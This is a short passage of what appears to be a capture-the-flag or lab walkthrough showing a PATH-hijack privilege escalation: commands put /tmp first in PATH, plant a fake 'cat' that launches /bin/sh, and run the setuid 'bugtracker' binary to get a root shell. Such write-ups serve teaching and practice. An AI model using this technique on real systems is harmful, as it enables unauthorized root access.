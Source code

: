 ```
# export PATH=/tmp:$PATH
```

![](./IMG/37.png)

```
# cd /tmp
# echo '/bin/sh' > cat
# chmod +x cat
```

![](./IMG/38.png)

- Now , let's execute bugtracker again, got the shell and permission is root

![](./IMG/39.png)